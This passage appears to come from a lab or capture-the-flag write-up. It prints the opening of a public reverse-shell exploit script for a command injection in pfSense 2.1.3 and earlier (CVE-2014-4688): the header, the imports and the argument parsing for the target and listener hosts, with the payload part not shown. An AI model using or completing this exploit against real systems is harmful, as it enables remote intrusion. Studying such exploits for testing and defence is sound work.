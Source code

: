 ### Exploit:
```
root@kali:/# searchsploit -x php/webapps/43560.py

#!/usr/bin/env python3



# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.

# Date: 2018-01-12

# Exploit Author: absolomb

# Vendor Homepage: https://www.pfsense.org/

# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/

# Version: <=2.1.3

# Tested on: FreeBSD 8.3-RELEASE-p16

# CVE : CVE-2014-4688



import argparse

import requests

import urllib

import urllib3

import collections



'''

pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.

This script will return a reverse shell on specified listener address and port.

Ensure you have started a listener to catch the shell before running!

'''



parser = argparse.ArgumentParser()

parser.add_argument("--rhost", help = "Remote Host")

parser.add_argument('--lhost', help = 'Local Host listener')

parser.add_argument('--lport', help = 'Local Port listener')

parser.add_argument("--username", help = "pfsense Username")

parser.add_argument("--password", help = "pfsense Password")

args = parser.parse_args()
```